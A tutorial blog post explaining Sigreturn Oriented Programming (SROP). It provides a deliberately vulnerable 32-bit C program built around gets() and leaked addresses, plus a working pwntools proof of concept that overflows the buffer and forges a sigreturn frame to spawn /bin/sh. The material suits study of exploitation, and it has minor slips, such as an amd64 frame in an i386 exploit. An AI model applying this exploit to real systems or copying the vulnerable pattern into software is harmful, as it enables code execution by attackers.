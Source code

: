 ```yaml
---
layout: post
title: How to SROP
author: adamt
---
```


Sigreturn Orientated programming (SROP) is a cool exploitation technique that allows an attacker to controll the entire state of the CPU with a single syscall and some stack space, possibly leading to code execution.


[https://github.com/adamtanana/SROP-walkthrough](tl;dr)

How to haq
------------------

SROP is very similar to ROP, in which by controlling the stack and the instruction pointer, the attacker is able to influence the control flow of the program through a sequence of gadgets (Small sets of instructions ending in a `ret` or `call` instruction). 
<br />
In cases where there aren't sufficient enough gadgets, or no gadgets that allow the attacker to execute arbritrary code, SROP may be a possible solution.  
<br />
<br />
SROP works by pushing a forged `sigcontext` structure to the stack, and then overwriting the return address with the location of a gadget(s) that will allow the attacker to execute the sigreturn syscall. 

An example sigcontext struct can be seen here from x86 Linux libc
<br />
<https://github.com/lattera/glibc/blob/master/sysdeps/unix/sysv/linux/x86/bits/sigcontext.h#L95>
```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

<br />
An example of the kind of gadget needed for SROP exploits can always be found in the VDSO memory area on x86-Linux systems
<br />
However this can be constructed via multiple gadgets, and effectively just require setting eax to the syscall number of sysreturn, and then calling a syscall/int 0x80 instruction
<br />
```c
  pop     eax
  mov     eax, 0x77
  int     0x80;
  nop
  lea     esi, [esi+0]
```
This will execute a sigreturn syscall. <br />

Example/Actually how to do it
---------------

Here is an example of SROP in a 32 bit linux environment. Luckily `pwntools` comes handy with a SROP library which allows us to construct a sigcontext for any architecture without needing to worry about the exact ordering and sizing of each element. I'll utilise this below 

Example 32bit vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>

static char* dodgy = "/bin/sh";

void func() {
    __asm__(  // all typical things found via a libc leak, or a large binary
          "mov $0x77, %eax;"
          "ret;"
          "int $0x80"
            );
}
void vuln() {
    printf("Hey look its a cheeky gadget\n");
    printf("func: %p\n", func);
    printf("/bin/sh: %p\n", dodgy);

    char buf[4];
    gets(buf);
}

int main() {
    vuln();
}
```
The code has the 3 requirements needed to leverage the SROP technique.

- Gadget(s) that will call the sigreturn syscall (In i386 linux this is syscall number 0x77, in amd64 linux it is )
- Enough Stack space to place an entire `sigcontext` struct
- Somewhere to jump to after the syscall has been evoked 

(in this case we can just jump to the syscall(int 0x80) gadget since we can ensure all registers are set to the required values to execute any syscall)
<br />

We can construct our sigreturn frame, setting the relevant registers required to execute an execve syscall, and then gain shell via a single ROP Gadget. Below is a POC

```python
from pwn import *


def leak(p):                               # Leak the address of our planted  
    p.recvuntil("func: 0x")
    func = int(p.recvline(), 16)

    p.recvuntil("/bin/sh: 0x")
    binsh = int(p.recvline(), 16)

    log.info("Func 0x%x. /bin/sh 0x%x" % (func, binsh))

    return func, binsh

def main():
    context.arch = 'i386'
    p = process("./srop32")

    func, binsh = leak(p)

    moveax = func + 13
    int0x80 = func + 19

    frame = SigreturnFrame(kernel='amd64') # Construct our Sig Return Frame
    frame.eax = constants.SYS_execve       # Syscall to call
    frame.ebx = binsh                      # First argument to execve
    frame.eip = int0x80                    # Return here after the syscall


    payload = 'A' * 16                     # Overflow the buffer
    payload += p32(moveax)                 # Mov 0x77 into eax (SYS_sigreturn)
    payload += p32(int0x80)                # Evoke the syscall
    payload += str(frame)                  # Fill the stack with our sigreturn frame
    p.sendline(payload)


    p.interactive()

if __name__ == "__main__":
    main()
```
